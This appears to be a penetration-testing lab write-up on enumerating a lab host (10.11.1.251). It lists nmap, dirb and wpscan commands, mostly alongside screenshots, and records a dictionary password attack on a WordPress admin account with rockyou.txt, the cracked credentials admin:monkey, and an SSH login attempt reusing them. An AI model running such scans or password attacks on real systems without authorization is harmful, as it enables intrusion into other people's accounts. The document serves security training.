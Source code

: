 Enumeration

# NMAP
## TCP Ports
### sudo nmap -Pn -p- 10.11.1.251
![e02386bfbd732d559460632148bd4802.png](../../_resources/2e5f9db642e94d6aaf4fe735089e45fc.png)

### sudo nmap -Pn -A -p- 10.11.1.251
![5d68b4cd71fc9b15014b6380bd62033c.png](../../_resources/f8c85169b5184eb79070dafff1954d80.png)

## UDP Ports
Did not scan

# dirb
Non-recursive scan:
### dirb http://10.11.1.251 -r
![9a7bc1c91d012c7a3730308e9e2c630a.png](../../_resources/77a3982497f84987b501af1fc9f1eee5.png)

Recursive scan for Wordpress site
### dirb http://10.11.1.251/wp
![cfbfcbab50f3294339e4ca1a71011ca8.png](../../_resources/a1529377ca9d4508920f290eab1a88c4.png)

# WPScan
Enumerate usernames. There is one username: admin
### wpscan --url http://10.11.1.251/wp --enumerate u
![acee3a14a95b8474852aac3a7de90e98.png](../../_resources/9b05d183258844faa0be02043a9e8990.png)

Dictionary password attack on username: admin using rockyou.txt
### wpscan --url http://10.11.1.251/wp -U admin -P /usr/share/wordlists/rockyou.txt
![f7d4e444a6b28fc74f1501471545109d.png](../../_resources/e5ccbad6f0604df2811eac1a817b9698.png)

Check that the login admin:monkey works
![01803855057a540f211f94ed634a8db7.png](../../_resources/d403119ca8da4f659fb733f20c833e6f.png)

# SSH
Attempt to login with credentials sean:monkey
![cee31872b5317dc394a94f63773dd2ab.png](../../_resources/84ca31526b75481390b923b268682c18.png)






